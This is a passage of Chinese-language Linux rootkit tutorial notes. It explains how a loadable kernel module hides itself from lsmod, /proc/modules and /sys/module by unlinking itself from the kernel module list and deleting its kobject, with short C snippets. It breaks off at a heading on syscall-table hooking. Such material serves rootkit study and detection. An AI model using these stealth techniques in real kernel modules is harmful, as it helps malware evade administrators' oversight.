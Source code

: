 使用 `insmod` 命令安装模块，`rmmod` 命令卸载模块，`lsmod` 查看内核模块。

**从 `lsmod` 命令中隐藏我们的模块**

对 `dmesg` 隐藏不输出即可。

`lsmod` 原理：

- 通过 `/proc/modules` 获取当前系统模块信息
- 而 `/proc/modules` 是内核利用 `struct module` 结构体的表头遍历内核模块链表，从所有模块结构体中获取模块信息。

`insmod` 命令实际执行 `init_module` 系统调用，把内核模块插入内核时，模块便与一个  `struct module` 结构体相关联。

所有的内核模块都维护在一个全局链表，链表头是一个全局变量 `struct module *modules`。新创建的模块会从头部插入，通过 `modules->next` 可引用到。

为了对 `lsmod` 隐藏，我们需要在这个链表中删除我们的模块：

```c
list_del_init(&__this_module.list);

// /include/linux/list.h
static inline void list_del_init(struct list_head *entry) {
	__list_del(entry->prev, entry->next);
	INIT_LIST_HEAD(entry);
}
static inline void __list_del(struct list_head * prev, struct list_head * next) {
	next->prev = prev;
	prev->next = next;
}
static inline void INIT_LIST_HEAD(struct list_head *list) {
	list->next = list;
	list->prev = list;
}
```

实现了对 `lsmod` 和 `/proc/modules` 的隐藏

在 `/sys/module` 中还可以发现现有模块，在初始化中添加：

```c
kobj_del(&THIS_MODULE->mkobj.kobj);

// /include/linux/export.h
extern struct module __this_module;
#define THIS_MODULE (&__this_module)

// /lib/kobject.c
void kobject_del(struct kobject *kobj);
```

就可以在 `/sys/module` 中隐藏模块。

#### [Linux Rootkit 系列二：syscall table hook](https://www.freebuf.com/sectool/105713.html)

> 用 virtualbox 别用 vmware！

最简单的 syscall hook 是修改 `sys_call_table`：
